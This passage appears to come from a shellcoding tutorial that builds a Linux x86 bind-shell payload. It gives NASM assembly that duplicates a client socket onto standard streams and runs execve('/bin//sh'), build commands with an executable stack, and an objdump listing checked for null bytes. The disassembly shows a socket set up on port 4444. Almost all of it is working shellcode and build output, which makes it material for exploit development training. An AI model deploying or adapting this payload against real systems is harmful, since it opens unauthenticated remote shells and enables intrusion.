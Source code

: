 ```asm
        mov ebx, eax        ; client_socket used for arg
        xor ecx, ecx        
        mov cl, 0x2         ; prepare counter
dup:
        ; syscall - dup2 (0x3f)
        mov al, 0x3f
        int 0x80            ; dup2(client_socket, x)
        dec ecx
        jns dup             ; jump if positive, don't if negative
        
        
        ;***************;
        ; execute shell ;
        ;***************;
        
        
        push edx            ; 0x0
        push 0x68732f2f     ; push hs//
        push 0x6e69622f     ; push nib/
        
        mov ebx, esp        ; null terminated /bin//sh
        mov ecx, edx        ; 0x0
        mov al, 0xB
        int 0x80            ; execve("/bin//sh", NULL, NULL)
```
Compile it:
> nasm -f elf32 -o bind_shell.o bind_shell.nasm\
> ld -z execstack -o bind_shell bind_shell.o

Let's check this for null bytes:
```
objdump -d bind_shell -M intel
bind_shell:     file format elf32-i386


Disassembly of section .text:

08048080 <_start>:
 8048080:	31 c0                	xor    eax,eax
 8048082:	31 db                	xor    ebx,ebx
 8048084:	31 c9                	xor    ecx,ecx
 8048086:	31 d2                	xor    edx,edx
 8048088:	b0 66                	mov    al,0x66
 804808a:	b3 01                	mov    bl,0x1
 804808c:	51                   	push   ecx
 804808d:	53                   	push   ebx
 804808e:	6a 02                	push   0x2
 8048090:	89 e1                	mov    ecx,esp
 8048092:	cd 80                	int    0x80
 8048094:	89 c7                	mov    edi,eax
 8048096:	b0 66                	mov    al,0x66
 8048098:	43                   	inc    ebx
 8048099:	52                   	push   edx
 804809a:	66 68 11 5c          	pushw  0x5c11
 804809e:	66 53                	push   bx
 80480a0:	89 e1                	mov    ecx,esp
 80480a2:	6a 10                	push   0x10
 80480a4:	51                   	push   ecx
 80480a5:	57                   	push   edi
 80480a6:	89 e1                	mov    ecx,esp
 80480a8:	cd 80                	int    0x80
 80480aa:	50                   	push   eax
 80480ab:	57                   	push   edi
 80480ac:	89 e1                	mov    ecx,esp
```